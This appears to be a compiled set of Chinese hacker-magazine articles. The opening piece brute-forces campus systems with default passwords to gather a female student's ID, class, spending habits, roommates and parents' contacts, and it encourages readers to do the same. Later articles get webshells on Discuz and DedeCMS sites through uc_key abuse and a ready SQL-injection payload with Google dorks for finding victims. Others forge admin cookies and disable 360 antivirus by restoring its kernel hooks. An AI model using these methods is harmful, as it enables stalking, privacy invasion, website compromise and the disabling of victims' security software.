| 有效证件号码 | 1******994062**** |
| 联系电话 | 18****862 |
| 联系电话2 |  |
| 电子信箱 | arm*******.edu.cn |
| 入网区域 | ***（*）二公寓（4-6层） |
| 详细地址 | **59 |
| 网卡物理地址 | 0860****4F2F |
| 开户费、施工费 | 20 |
| 预存款金额 | 360 |
| 帐户余额 | 80（详细清单） |
| 开户时间 | 2013年03月08日 |
| IP地址 | 49.140.112.** |
| 网关地址 | 49.140.112.254 |
| 子网掩码 | 255.255.255.0 |
| 首选DNS | ****** |
| 备用DNS |  |

图3

瞬间就出现了好多信息，我这才明白为什么以前的库查询不到信息，原来这个宿舍楼是新的，所以就没有信息了。

这里能有的信息也就这么多了，朋友想再了解下她的班级和寝室室友。确定了她是金融学院的，也得到了证件号。现在没有办法直接弄网站，弄到她的班级，看样还得穷举。首先她是金融学院 12 级的，也就是学号前 4 位是 4112。根据我们学校的规律，同一个班里，男生学号靠前，女生学号靠后。一个班 30 多人，那我们就从 18 号开始，一共应该有不到 20 个班。

抓包分析登录方式，POST 如下数据到 `http://registry.***.edu.cn/xs.aspx`：  
`__EVENTTARGET=imgDl&__EVENTARGUMENT=&__VIEWSTATE=dDwtMTEwNzUxODYyNjs7bDxpbWdEbDs%2BPlTqPDEC%2FgX2JAgJMHk4BfOufq1U&txtXh=4112xxxx&txtPwd=11111`

其中 4112xxxx 是待爆破信息，11111 是默认密码。

```python
import httplib, urllib
for y in range(1,20):
```

```python
yy='%02d'%y
for x in range(18,40):
    httpClient = None
    other=yy+str(x)
    try:
        params = urllib.urlencode({'__EVENTTARGET':'imgDl','__EVENTARGUMENT':'dDwtMTEwNzUxODYyNjs7bDxpbWdEbDs%2BPlTqPDEC%2FgX2JAgJMHk4BfOufq1U','txtXh':'4112'+other,'txtPwd':'11111'})
        headers = {"Content-type": "application/x-www-form-urlencoded",
                   "Accept": "text/plain"}
        httpClient = httplib.HTTPConnection("http://registry.***.edu.cn", 80, timeout=30)
        httpClient.request("POST", "/xs.aspx", params, headers)
        response = httpClient.getresponse()
        str1=str(response.read()).find('20120100001')
        if(str1 != -1)
            print other
    except Exception, e:
        print e


```

在跑库的过程中，我忽然想到一个问题，我所列举的范围仅仅是朋友计算机专业的情况：男女多少。所以我想当然地把女生学号排到了 18 之后，但对于其它专业，尤其是医学护理这种，我的想法就会出现很大的问题。所以我准备扩大范围，最终查询到她是 12 级 5 班的 2* 号。

现在所有基本信息都差不多了，接下来就来看她的生活习惯。先从饮食开始，校园一卡通中心提供了消费记录查询。同样默认密码登录，得到她的消费记录，如图4所示。
图4

经过“大数据”研究，发现她主要是喜欢西北和四川风味，应该喜欢吃辣。根据我们学校寝室分配规律，即按学号顺序排序。如法炮制，搞定她寝室室友的信息，发现她们经常一起吃饭（通过一卡通消费记录发现）。

最后再登录另一个“超级查询系统”（因为里面有的信息实在是太多了），把她所有的信息、QQ、邮箱，甚至父母姓名电话，全都搞定。

至此，所有技术层面，全部完工。

此文没有多少入侵技术，主要是用编程和网络分析能力进行信息提取。让校园里的朋友们也能利用此技术，尽可能地收集信息，搞定“女神”。毕竟，现在已经进入一个信息时代，掌握了信息，就掌握了一切。

## 实战 UC_Key 获取 Discuz! x2.5 论坛 Webshell

文/图 simeon

路人甲在乌云漏洞平台公布了 Discuz 的利用 UC_KEY 进行 getshell 的文章（http://www.wooyun.org/bugs/wooyun-2014-048137），网上随即公开了两套通过 uc_key 获取 Webshell 的代码。虽然最终也成功获取了 Webshell，但在获取 Webshell 过程中有一些经验值得分享。uc_key 是 Discuz UC 客户端与服务端通信的通信密钥，因此使用 uc_key 只能获取 UCenter Client 的 webshell，即 Discuz 论坛的 webshell。如果一台服务器上只有 UCenter Server，是不能通过 uc_key 来获取该服务器上的 webshell 的，不过可以通过 uc_key 将服务器上的数据重置用户口令，下面将如何测试网上公布的 0Day 和实战过程进行分享。

### 测试网上公布的 0day 代码

通过在搜索引擎中检索“uc_key”关键词，可以方便地获取一些通过 uc_key 获取 webshell 的文章，通过查看文章顺利获取 0day 代码。

### 1. 测试误区

下载到 uc_key.php 和 uc_key.py 代码后，首先通过程序 uc_key.py 进行编译执行，结果出现错误提示：“IndexError: list index out of range”，如图 1 所示。通过搜索错误提示，也没有找到解决错误的方法。后面直接执行“python uc_key.py 127.0.0.1”命令则可以顺利执行。
图 1 测试 uc_key.py 出错

### 2. uc_key.php 测试

- 1）获取 uc_key 值

获取 uc_key 可以通过“config\config_ucenter.php”文件获取，也可以通过登录后台获取，如图 2 所示。单击“站长”-“Ucenter 设置”，复制“Ucenter 通信密钥”中的值即可。
图 2 获取 uc_key 值

- 2）获取 webshell

对最新版本 X3.1 测试过程中，发现如果系统开启了防火墙会禁止危险脚本访问。如图 3 所示，对利用代码进行屏蔽和阻止，导致 Webshell 获取失败。如果数据库没有开启也会出现上面的错误提示。如果在最后的结果中出现提示“1”，如图 4 所示，则表示获取 webshell 成功。
图 3 获取 Webshell 失败
图 4 获取 webshell 成功

对于 X2.5 系列，则可以轻松获取 Webshell，执行命令 “php uc_key.php” 命令后，会直接修改 “config\config_ucenter.php”，如图 5 所示，密码为 1。
图 5 修改配置文件获取 webshell

通过 uc_key.php 获取 webshell，每次都需要修改 uc_key.php 中的 host 和 uc_key 值，使用起来不太方便，而通过 uc_key.py 则方便很多，如图 6 所示，通过执行 python uc_key.py host uc_key 值，可以直接获取 webshell。
图 6 通过 uc_key.py 获取 webshell

### 实战网上获取 Webshell

### 1. 搜索敏感配置文件

在 google 中输入 “config/config_global.php.bak” “config/config_ucenter.php.bak”，如图 7 所示，对搜索结果进行分析和整理。在搜索过程中可以加入 “index of” 获取敏感信息。
图 7 google 搜索敏感信息

### 2. 查看搜索结果

在搜索结果中获取“www.tjeco.org/edusite/config”，该结果明显存在文件路径泄漏漏洞。如图 8 所示，单击文件链接，尝试能否获取文件的具体内容。经过测试，发现无法获取文件内容，对 bak 文件无法下载或者查看，直接获取 uc_key 值在此处行不通。
图 8 获取敏感文件泄漏漏洞

### 3. 获取数据库备份文件

对该站点存在的数据库地址进行浏览和查看，如图 9 所示，管理员对网站数据进行过备份，单击可以直接下载。
图 9 下载数据库

### 4. 破解管理员密码

下载 120903_dl8Ni1-1.sql 文件后，将该数据库备份文件导入本地 mysql 数据库，进行查看。如图 10 所示，获取用户的密码等信息，对管理的账号通过 cmd5 网站进行破解，如图 11 所示，密码为“admin”，简直无语。
图 10 获取用户密码等信息
图 11 获取管理员密码

## 5. 获取 uc_key 值

如图 12 所示，通过后台管理系统，获取 uc_key 通信密钥值。
图 12 获取 uc_key 值

## 6. 获取 webshell

将该值通过“php uc_key.php”或者“python uc_key.py www.xxx.org uc_key”进行漏洞利用，成功获取 webshell。如图 13 所示，通过 webshell 可以看出该网站曾经被入侵过，入侵者留了一个大马。
图 13 成功获取 webshell

## 7. 获取服务器系统管理员的账号

通过 webshell 命令提示符，如图 14 所示，执行“whoami”命令得知脚本为 system 权限。上传 wce.exe，通过“wce -w”直接获取系统管理员密码。
图 14 获取系统管理员账号

## 防范与总结

Discuz! 论坛在安装成功后可以通过以下一些设置加强论坛的安全：

- 1. 严格设置论坛目录权限，例如“D:\ComsenzEXP\wwwroot\config”设置为没有写入权限。
- 2. Apache+PHP+Mysql 平台授予最低权限，不要授予 system 权限。可以通过 webshell 进行测试。
- 3. 备份数据库后，要及时下载并删除数据库备份文件。
- 4. 设置强健的管理员密码，安全验证问题和答案。
- 5. 关注最新 Discuz! 论坛漏洞和利用方法，及时更新补丁程序。

## DedeCMS 系统 recommend.php 文件 SQL 注入漏洞获取 Webshell

文/图 零

近期网友在 dedecms 中发现了全版本通杀的 SQL 注入漏洞，并且已有许多资深技术人员对此漏洞进行了分析，提供了许多利用代码和工具，对于许多刚入门的新手来说这无疑是一个练手的好机会，我在这里只是简单地实验一下该漏洞的利用，提供入侵的思路。

## 寻找漏洞网站

由于 dede 比较出名，所以只需 google 一下“Powered by DedeCMS”即可获得大量结果，如图 1 所示。
图 1 通过 google 获取目标信息

根据我搜索的经验，大部分存在此漏洞的网站皆有“Powered by DedeCMS V57_GBK_SP1 © 2004-2011 DesDev Inc.”标识，所以推荐用此标识作为关键字进行搜索，如图 2 所示，此关键字获得的搜索结果更好一些。
图 2 采用网站标识做关键字进行搜索结果

## 目标网站筛选

作为刚入门的新手，我只能利用网上已有的注入语句进行手动试探，随机点开一个网站将构造好的注入语句附在网址的后边，幸运的话就可以找出管理员用户名和密码。我所用的注入语句是“DEDECMS 批量攻击所利用的工具”中所用的语句。

````
`/plus/recommend.php?aid=1&_FILES[type][name]&_FILES[type][size]&_FILES[type][type]&_FILES[type][tmp_name]=aa\'and+char(@~\`) +/*!50000Union*/+/*!50000SeLect*/+1,2,3,concat(0x3C6162633E,group_concat(0x7C,userid,0x3a,pwd,0x7C),0x3C2F6162633E),5,6,7,8,9%20from%20`%23@__admin`%23";$exp=@file_get_contents($expp)`


````

并不是所有网站都能找出管理员用户名和密码，有些网站安装安全狗、加速乐的防火墙，因此入侵可能被拦截或出错，就会获得如图 3 和图 4 的结果。
图 3 注入被拦截情况
图 4 出现错误信息的情况

但是不要灰心，这需要有一定的耐心去挨个尝试，相信总能找到目标，也可以用 Sunshine 写的 DEDECMS 批量攻击工具进行批量爆破，爆出的用户名和密码如图 5 所示。
图 5 获取网站管理员账号和密码

冒号前面为“用户名”，后面为密码的 md5 加密形式，本例中爆出两个用户信息。以密码一为例，“171469e80d32c0559f88”去掉前三位和最后一位，将剩余内容到 md5 解密网站进行解密，即可得密码为“admin888”，如图 6 所示。
图 6 md5 解密获得管理员密码

## 获取后台登录地址

漏洞都是现成的，密码也容易破解，但痛苦的是找不到后台地址，无法登录。对此解决方法主要有：

- 1) 利用 dede 默认登录地址 site+/dede/，但可能性不大，在安装时通常都会改变默认后台登录地址；
- 2) 利用 google 进行后台地址搜索；
- 3) 进行尝试性猜测；
- 4) 利用 dedecms 系统其他信息进行查找。

这里我使用的是 mysql_error 信息，将 data/mysql_error_trace.inc 附在网址后边即可，图中红色信息即是我们要找的登录地址，如图 7 所示。
图 7 获取 dedecms 后台登录地址

另有其他一些类似语句可以利用，如：

- `/include/dialog/select_media.php?f=form1.murl`
- `/include/dialog/select_soft.php`
- 等等，利用方法同上，但不能保证通杀。

## 登录后台获得 **webshell**

登录后台后，由于 dedecms 最高管理员可以上传任何文件，通过文件上传直接获取 Webshell。如图 8 所示，通过生成文件添加一句话即可。
图 8 生成一句话后门

通过菜刀一句话对刚添加的 webshell 进行管理，如图 9 所示，成功连接获得 webshell。
图 9 成功获取 webshell

## 另一种入侵思路

由于带有 dede 的网站后台不容易获取，而 mysql_error 信息等也不能保证通杀，所以我们可以采取先获得后台地址的方法，即用“inurl:data/mysql_error_trace.inc”作为关键字直接进行搜索，搜索结果如图 10 所示。
图 10 利用 mysql_error 信息页作为关键字进行目标网站搜索结果

对搜索结果进行查看，找到有后台地址信息的网站，这样我们就可以先获得网站后台登录地址，然后再用漏洞利用语句对网站进行检测，综合利用这两种入侵思路便可获得更多 webshell。

## 入侵总结

因为漏洞比较明显，利用起来比较简单，总结起来此次成功获得 webshell 的关键有以下两点：

- 1) 需要一定的耐心利用代码对 google 得到的网站进行逐个试探，或者利用批量爆破工具进行批量试探。
- 2) 入侵思路需要开阔，这特别体现在这次入侵的寻找目标网站和后台登录页上，要学会利用各种信息和方法去寻找所需信息。

## 从一次未完成的渗透分析 Cookie

文/图 haxsscker

这次渗透有点失败，注入点有 root 权限，但开了 GPC。大家都知道，开了 GPC，outfile 就无效了。有 FCK，版本是 2.6.6，该补的 Bug 也补了。总之，技术不到家，没拿下 shell，下面说说过程吧。即使是失败的渗透，有些经验也是可以总结的。

## 起因

好友求助，有时间就要帮忙啊。到 http://team.f4ck.net/thread-9221-1-1.html 看了下，root 注入点，没有开启外连，开了 GPC，所以没法 outfile，FCK 版本 2.6.6，几个漏洞都搞不定，没办法。

## 密码之殇

既然如此，那么就看看能不能进后台了，或许后台里面会有办法？google 一下，后台出现，如图 1 所示。
图 1

于是注入获取密码，但 CMD5 却一个都破解不出来，如图 2 所示。
图 2

## 分析 Cookie

既然是 root 注入点，那就读文件吧，毕竟读文件和 GPC 没关系。谁说登录后台一定要密码？我们分析下，cookie 读文件需要绝对路径，下面我们扫描敏感目录。出来个 info.php，路径就有了，如图 3 所示。
图 3

我们构造如下语句来读一下刚才 google 到的 login.php 文件。

````
http://xxoo.com/help.php?id=58 and 1=2 union select
1,2,3,4,load_file(0x453A2F777777726F6F74322F6D616E6167652F6C6F67696E2E706870),6,7,8,9
````

该文件的源码如下，我们简单分析一下。

```php
if ($hu_member_type == '1') // 联盟会员登录
{
    if ($action = "loginchk") {
        if (empty($loginname)) { jsalert("用户名不能为空","back"); }
        if (empty($loginpwd)) { jsalert("密码不能为空","back"); }
        if (empty($verifycode)) { jsalert("验证码不能为空","back"); }
        if (strval(strtolower($verifycode)) !=
            strval(strtolower($_SESSION['verifycode']))) { jsalert("验证码有误，请重新再输入","back"); }

        $password = md5str($password);
        $rs = $db->fetch_first("select * from users where productcount='1' AND loginname='" . $loginname . "'");
        if ($rs) {
            if (md5str($loginpwd) == $rs["pwd"]) {
                setcookie("uid", $rs["id"]);
                setcookie("username", $loginname);
                setcookie("flag", '1');
                //echo $_COOKIE["uid"];
                //exit;
                header("location:manage_index.php"); // 跳转
                die();
            } else {
                $aa = md5str($loginpwd);
                $db->close();
                jsalert("用户名或密码不对1{$aa}","back");
            }
        } else {
            $db->close();
            jsalert("用户名或密码不对{$loginpwd}","back");
        }
    }
}


```

仔细的读者们会发现里面有 setcookie，是的，那我们就这样再书写一个，set 什么，我们就添加什么。此处我们需要添加的就是 uid、username 和 flag，如图 4。
图 4

设置好之后，我们再根据上面源码里的跳转，来到 manage_index.php，如图 5 所示。
图 5

居然只有几个功能，估计 cookie 的账户权限不够，我们接着读代码：

```php
if(md5str($loginpwd)==$rs["loginpwd"]){
    if($rs["userstate"]==1){jsalert("用户名或密码不对","./login.php");}
    setcookie($app_name."manage_loginname",$rs["loginname"]);
    setcookie($app_name."manage_loginpwd",$rs["loginpwd"]);
    setcookie($app_name."manage_userlevel",$rs["userlevel"]);
    setcookie("admin_id",$rs["id"]);
}


```

果然，还可以设置 manage 开头的 cookie。至于前面的 $app_name，我们可以从配置文件读到，是 rmt，于是重新构造 cookie 如下（cookie 内容来自注入的那张图片，仔细看里面包含了 username、password、id 和 level），如图 6 所示。
图 6

再刷新一下就可以了。但是，去别的功能一看竟然没有权限，这又是什么问题呢？如图 7 所示。
图 7

我们再读一下说没有权限的文件（方法与上面一样，就不重复了），如图 8 所示。
图 8

看到了，原来只有 ID=8 和 ID=21 才有权限，我们修改一下，如图 9 所示。
图 9

这下真的进来了，功能不少，如图 10 所示。
图 10

## 反思

本文主要是分析 cookie，得到的启发就是有时候要广开思路，使用不同的方法进行测试。如果这次的后台有什么可以拿下 shell 的漏洞，就可以了。

（完）

## Com Hook 实现监控文件复制

文/图 李旭昇

去年 12 月刊上的几篇文章，分别用不同的方法实现了对文件操作的监控。不过这些方法都有一个共同的局限性：无法判断文件的复制。由于文件的复制从本质上来讲就是打开旧文件 + 读取旧文件 + 创建新文件 + 写入新文件。所以，用通常的监控方法是无法准确判断出文件复制的。尽管可以从上述四条信息中分析出可能的复制操作，但这样会给编程带来很大的挑战，尤其是当文件操作较为频繁时，可能会出现误判和漏判。而监控文件复制又是十分有意义的，所以笔者决定一探究竟。

由于通常的复制文件都是在资源管理器内进行的，所以笔者考虑通过对 explorer.exe 进行 hook 实现相应的监控。但经过 API Monitor 工具分析，explorer.exe 复制文件时没有调用 CopyFile 等类似的 API 函数，而是采用 COM 对象 IFileOperation 的 CopyItems 函数。为了达到目标，我们必须进行 COM hook。

什么是 COM？什么又是 COM hook？其实 COM 很好理解，大家可以将其简单地看做一个 C++ 的类，而 COM hook 就是 hook 这个类的成员函数。有关 COM 的详细讲解，请参考《Essential COM》或《COM 技术内幕》。

众所周知，C++ 为了方便实现多态性，在类的内存布局的前几个字节中放置了一个虚表指针，该指针指向该类的所有虚函数，我们只要沿着该指针顺藤摸瓜就可以找到指向 CopyItems 函数的指针，再用我们的函数进行替换即可完成 hook。代码如下：

```cpp
BOOL WINAPI StartHook()
{
    CoInitializeEx(NULL,
        COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE);
    IFileOperation *pfo;
    HRESULT hr=CoCreateInstance(CLSID_FileOperation, NULL, CLSCTX_ALL,
        IID_PPV_ARGS(&pfo));
    if(FAILED(hr)||pfo==NULL)
    {
        OutputDebugString(L"CoCreateInstance失败");
        return FALSE;
    }

    //CopyItems_old=(PCopyItems)HookVtbl(pfo,CopyItems_Index,CopyItems_new);
    PerformOperations_old=(PPerformOperations)HookVtbl(pfo,PerformOperations_Index,PerformOperations_new);

    WCHAR szBuff[MAX_BUFF];
    StringCchPrintf(szBuff, ARRAYSIZE(szBuff),L"PerformOperations_old:%p new:%p 虚表偏移:%d",
        PerformOperations_old,PerformOperations_new,CopyItems_Index);
    OutputDebugString(szBuff);
}
```

```cpp
OutputDebugString(L"Hook Done. Waiting for operations.");
return TRUE;
}
DWORD64 HookVtbl(void* pObject, DWORD methodIdx, void* newMethod)
{
    PDWORD64 vtb = PDWORD64(*(PDWORD64)pObject);
    DWORD64 oldMethod = vtb[methodIdx];

    DWORD oldProtect = 0;
    VirtualProtect(vtb + sizeof(PDWORD64) * methodIdx, sizeof(PDWORD64), PAGE_READWRITE, &oldProtect);
    vtb[methodIdx] = (DWORD64)newMethod;
    VirtualProtect(vtb + sizeof(PDWORD64) * methodIdx, sizeof(PDWORD64), oldProtect, &oldProtect);

    return oldMethod;
}
```

StartHook 函数首先创建一个 IFileOperation 对象的实例，随后调用关键函数 HookVtbl 进行 hook。HookVtbl 的工作是到虚表中替换某个函数指针，唯一需要注意的是内存访问属性的修改和恢复。至于怎样获得目标函数在虚表中的索引呢？如果是完全陌生的类，我们需要通过逆向与调试确定该值。不过 Windows 并不完全是黑箱，该值已在网上有关 IFileOperation 对象的资料中给出，我们只要将相应的文件包含其中即可，有兴趣的读者可以查看源码。

细心的读者一定已经发现上述代码中 hook CopyItems 函数的代码已经被注释掉了，替代它的是 hook PerformOperations 函数的代码。IFileOperation::PerformOperations 函数是进行实际复制操作（也包括资源管理器内的其他文件操作）的函数，而前面提到的 CopyItems 只是将相应的操作挂起。这样 hook 出于两点考虑：一是编程上的便利。CopyItems 函数传入的参数是 IShellItem 类型，要从中得到文件的路径还要费许多功夫；二是精确度的考虑。CopyItems 函数只是进行尝试性操作，至于能否成功？成功后的文件名是什么？这些都是未知的，因而这不符合我们监控的目的。如果使用 hook PerformOperations，我们不仅有好的办法获得文件名，而且可以知道操作是否成功。PerformOperations_new 函数代码如下：

```cpp
HRESULT __stdcall PerformOperations_new(IFileOperation *pThis)
{
    CFileOpProgSinkApp *pdlg = new CFileOpProgSinkApp();

    DWORD dwCookie;
    int ret = pThis->Advise((IFileOperationProgressSink*)pdlg, &dwCookie);
    //if(ret==S_OK) OutputDebugString(L"Advise Done.");

    HRESULT hr = PerformOperations_old(pThis);

    pThis->Unadvise(dwCookie);

    return hr;
}
```

IFileOperation 提供一种“建议”（Advise）机制，该机制类似于钩子机制，允许用户注册的例程（实际上是 IFileOperationProgressSink 对象）在操作前后被调用并进行处理。我们只要在一个复制操作结束后，分析相应的结果，再决定是否记录即可。完成 Advise 之后，我们调用 PerformOperations_old 函数继续完成操作。

IFileOperationProgressSink 类的代码较多，大部分只需保持 MSDN 示例中的样子即可。这里只给出了关键的 PostCopyItem 函数代码：

```cpp
IFACEMETHODIMP PostCopyItem(DWORD dwFlags, IShellItem *psiItem,
IShellItem *psiDestinationFolder,
PCWSTR, HRESULT hrCopy, IShellItem *psiNewlyCreated)
{
    if (hrCopy) return S_OK; // 复制失败。对的，没错，失败非0，成功为0

    PWSTR pszOldItem;
    psiItem->GetDisplayName(SIGDN_FILESYSPATH, &pszOldItem);
    PWSTR pszNewItem;
    psiNewlyCreated->GetDisplayName(SIGDN_FILESYSPATH, &pszNewItem);

    WCHAR szBuff[MAX_BUFF];
    StringCchPrintf(szBuff, ARRAYSIZE(szBuff), L"Copy\t%s ==> %s", pszOldItem, pszNewItem);
    CoTaskMemFree(pszOldItem);
    CoTaskMemFree(pszNewItem);

    OutputDebugString(szBuff);

    return S_OK;
}
```

我们只考虑成功的复制操作，所以开始时就对操作的返回结果进行过滤。如果操作是成功的，我们就设法获得文件的路径并进行记录，这样就可以完成对复制文件的监控。我们只需将上述代码编译成一个 DLL，并将其注入到 explorer.exe 中即可。至于 DLL 注入的代码请读者参考源代码，这里不再赘述。

以上代码实现了对资源管理器内部文件复制的监控。如果用命令行或是其他程序复制，这种办法就无能为力了（但仍可以被其他方法监控到文件的新建和写入）。不过，这仍不失为现有的常见文件操作监控方法的补充。没有一种技术可以完美地实现文件监控，我们必须将各种方法综合起来，逐步完善，越做越好！

## 编程结束 360 进程并打造自己的 Inline Hook 保护进程

文/图 弗相辰

自从我的文章《编程恢复腾讯电脑管家 XP 专版 Inline Hook 程序分析》（以下简称“前文”）在 2014 年 5 月的《黑客防线》杂志上发表以后，得到了亲朋好友的一致赞扬。虽然如此，但我发现周围的朋友用 360 安全卫士的仍然比较多，以前也看过一些关于黑防大师分析 360 的文章，说 360 的挂钩技术及保护钩子技术多么巧妙。抱着试试看的心理，我尝试用前文的方法来结束 360 安全卫士（可包含 360 杀毒）的进程。另外，尝试打造一个类似的 Inline Hook，实现一个简易的进程保护和钩子保护。

### 故技重施，并非一帆风顺

仍然按照前文的方法研究 360 的挂钩之处，调试 KiFastCallEntry 函数。

```asm
lkd> uf kifastcallentry
Flow analysis was incomplete, some code may be missing
nt!KiBBTUnexpectedRange:
8053e352 83f910            cmp        ecx,10h
8053e355 7539              jne        nt!KiBBTUnexpectedRange+0x3e (8053e390)
......                     ......
nt!KiFastCallEntry+0xcc:
8053e62c ff0538f6dfff      inc        dword ptr ds:[0FFDFF638h]
8053e632 8bf2              mov        esi,edx
8053e634 8b5f0c            mov        ebx,dword ptr [edi+0Ch]
8053e637 33c9              xor        ecx,ecx
8053e639 8a0c18            mov        cl,byte ptr [eax+ebx]
8053e63c 8b3f              mov        edi,dword ptr [edi]
8053e63e 8b1c87            mov        ebx,dword ptr [edi+eax*4]
8053e641 e992622801        jmp        817c48d8        //钩子位置
```

接下来确定钩子位置距离 KiFastCallEntry 的偏移。

```asm
lkd> u 8053e641

nt!KiFastCallEntry+0xe1:

8053e641 e992622801        jmp       817c48d8
8053e646 8bfc              mov       edi,esp
8053e648 3b35549a5580      cmp       esi,dword ptr [nt!MmUserProbeAddress (80559a54)]
......                     ......
```

这里我们看到，360 的钩子就是一句 jmp。有意思的是，这句 jmp 后面就是腾讯挂钩的位置，不知道这算不算是巧合。360 的高明之处在于，它挂钩跳转的范围并没有出“界”，以至于 XueTr 会识别为“未知模块”。

再来调试原系统在这个位置的值。

```asm
lkd> u nt!KiFastCallEntry+0xe1

nt!KiFastCallEntry+0xe1:

8053e641 2be1      sub    esp,ecx
8053e643 c1e902    shr    ecx,2
......             ......
```

好了，拿出前文的程序，故技重施。

```c
VOID Hook360()
{
    ULONG OrigKiFastCallEntry = 0;
    _asm mov ecx,0x176;
    _asm rdmsr;
    _asm mov OrigKiFastCallEntry,eax;

    UN_PROTECT();

    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe1) = 0x2b;
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe2) = 0xe1;
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe3) = 0xc1;
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe4) = 0xe9;
    *(PULONG)((ULONG)OrigKiFastCallEntry+0xe5) = 0x02;

    RE_PROTECT();

    return STATUS_SUCCESS;
}
```

奇怪的事情发生了，竟然出现了 BSoD。经过我的反复检查核对，恢复挂钩的地址和值都没有错误。在虚拟机上运行 XueTr，挂钩位置和值与调试结果一致，一时之间没有了头绪。无奈之下，我在自己本机（本机也用的是 360）也运行了 XueTr，查看钩子的情况。惊奇地发现，在本机上的挂钩位置，后面两句中的 MmUserProbeAddress 地址也发生了变化。抱着试试看的心理，又把上面程序加了几句：

```c
UNICODE_STRING ustrFunName = RTL_CONSTANT_STRING(L"MmUserProbeAddress");

PVOID fnMmUserProbeAddress = MmGetSystemRoutineAddress(&ustrFunName);

*(PULONG)((ULONG)OrigKiFastCallEntry+0xe6) = 0x8b;
*(PULONG)((ULONG)OrigKiFastCallEntry+0xe7) = 0xfc;
*(PULONG)((ULONG)OrigKiFastCallEntry+0xe8) = 0x3b;
*(PULONG)((ULONG)OrigKiFastCallEntry+0xe9) = 0x35;
*(PULONG)((ULONG)OrigKiFastCallEntry+0xea)= (ULONG)fnMmUserProbeAddress;
```

熟悉吧！这就是前文的程序。这次倒是出人意料地成功恢复了 360 Inline Hook，想来是 360 对 MmUserProbeAddress 也做了手脚。这次编程过程真可谓“山重水复，柳暗花明”。值得一提的是，我又在 Windows 7 系统中做了类似的实验，证明结果也是成功的。

至于 R3 的服务加载驱动程序，我依据前文程序，改写了部分内容，优化了部分代码，使执行过程中的回显更清楚，有利于我们查看程序的执行步骤。在此就不再赘述了，请查看源代码。本部分写得比较简略，详细原理请查看前文。

### 以假乱“假”，实现 Inline Hook 重夺 SSDT 控制权

既然安全软件可以通过 Inline Hook 来制造假的 SSDT，那我们就去仿照一下，来个以假乱“假”。

有句名言叫“standing on the shoulders of giants”，许多科研成果都是这样得出来的。在萌生自己实现 Inline Hook 的想法时，我想起了几年前黑防的一篇文章《构造自己的 SSDT 绕过主动防御》，这篇文章要点如下：

- 1. 通过 PE 文件（ntoskrnl.exe）重定位表的原理来获取原始 SSDT 表。
- 2. 通过分析 ReactOS 中的源代码来确定 Inline Hook KiFastCallEntry 的位置并实现挂钩。
- 3. 实验结果 1，成功绕过瑞星 2010 主动防御。
- 4. 实验结果 2，在安装 360 安全卫士的电脑上运行这个程序会出现蓝屏，作者猜想可能是与 360 的挂钩位置有冲突，希望感兴趣的人来进行解决。

如果大家对 PE 文件格式和 SSDT 相关原理有一些了解的话，直接看程序就可以了；如果不是，可以参考原文来理解。

其实对于作者遗留的问题，本文的第一部分就已经做了解答。当我们已经恢复了 360 的 Inline Hook 之后，便不存在挂钩位置有冲突的问题了。下面我将基于这个程序做一些修改和扩展，期望达到我理想中的 Inline Hook。

- 1. 原程序只考虑单核的情况（ntoskrnl.exe），这里为了适应现在大多数的情况，我修改成了 ntkrnlpa.exe。
- 2. 只“搬走” SSDT，在实际使用中意义不大，我希望可以像安全软件那样，最起码实现一个基本的进程保护。这里我选择了 Hook “假” SSDT 的 ZwOpenProcess 函数，下面是挂钩核心代码：

```cpp
// 原程序实现的 Inline Hook
*(PDWORD)&Newcode[1]=(ULONG)UseOldSSDT - HookAddress - 5;
WPOFF();
RtlCopyMemory((PUCHAR)HookAddress,Newcode,5);
WPON();

// 本程序新增的 Hook ZwOpenProcess
ZwOpenProcessAddr = (ULONG)oldSSDT + 0x7a * 4;
ZwOpenProcessEx = (ZWOPENPROCESS)*(PULONG)ZwOpenProcessAddr; // 备份 ZwOpenProcess 的地址

WPOFF();

*(PULONG)ZwOpenProcessAddr = (ULONG)MyZwOpenProcess; // 替换 ZwOpenProcess 的地址为 MyZwOpenProcess

WPON();
```

其中，MyZwOpenProcess 的功能是依据进程名来保护进程，具体来说，是要保护名字叫做“mxc.exe”的进程，其他进程放过。以下为核心代码：

```cpp
NTSTATUS MyZwOpenProcess(OUT PHANDLE ProcessHandle,IN ACCESS_MASK DesiredAccess,IN POBJECT_ATTRIBUTES ObjectAttributes,IN PCLIENT_ID ClientId OPTIONAL)
{
    // 省略一些定义
    // 接着依次调用 PsLookupProcessByProcessId、PsGetProcessImageFileName 来获取当前进程名，注意使用前先声明。
    if(!strcmp(procname, pName)) // 判断是否是我们要保护的进程，是的话则返回拒绝打开进程，否则调用原函数放过。pName 是当前进程名，procname 是“mxc.exe”。
    {
        return STATUS_UNSUCCESSFUL; // 如果是“mxc.exe”则返回拒绝打开进程
    }

    ZwOpenProcessReal = *(PULONG)((ULONG)nowSSDT + 0x7a * 4); // 自己定义的原 ZwOpenProcess 函数
    return(ZwOpenProcessReal(ProcessHandle,DesiredAccess,ObjectAttributes,ClientId)); // 其他进程调用原函数放过
}
```

- 3. 安全软件钩子被恢复，让我感觉到切肤之痛，所以我必须要为保护钩子付出努力。

还记得在黑防的另一篇文章《HIPS 研究之学习 360 的 SSDT Hook》之中，对 360 如何保护自己的 Inline Hook 做出精到的分析并仿写了代码，其意思大致就是调用 CmRegisterCallback 注册一个注册表操作的回调函数，在该回调函数中检查 Inline Hook 是否被恢复。这个方法看起来很美，但我没有尝试是否可行，因为在我的实验之中，无论是用 XueTr 还是自己编程……恢复，均未见 360 对钩子的任何保护。我想到的方法是利用一个 DPC 定时器，设定一个很短的时间，在这个时间之内，如果发现有恢复钩子的行为，就给他来个“蓝脸”瞧瞧。请看核心代码：

```c
// 在 DriverEntry 中创建的 ThreadFunc 线程
NTSTATUS ThreadFunc(IN PVOID Context)
{
    // 省略一些定义
    while (TRUE)
    {
        do
        {
            ULONG OrigKiFastCallEntry = 0;

            _asm mov ecx,0x176;
            _asm rdmsr;
            _asm mov OrigKiFastCallEntry,eax;

            if (*(PULONG)((ULONG)OrigKiFastCallEntry+0xd9) == 0x8b180c8a) // 在挂钩处与系统原值比较，如果一样说明有人恢复钩子
            {
                UN_PROTECT();

                *(PULONG)((ULONG)OrigKiFastCallEntry+0xe1) = 0; // 直接 BSoD

                RE_PROTECT();
            }
            goto label;
        } while (TRUE);

label:
        KeWaitForSingleObject(
            &device_extension->request_event,
            Executive,
            KernelMode,
            FALSE,
            NULL
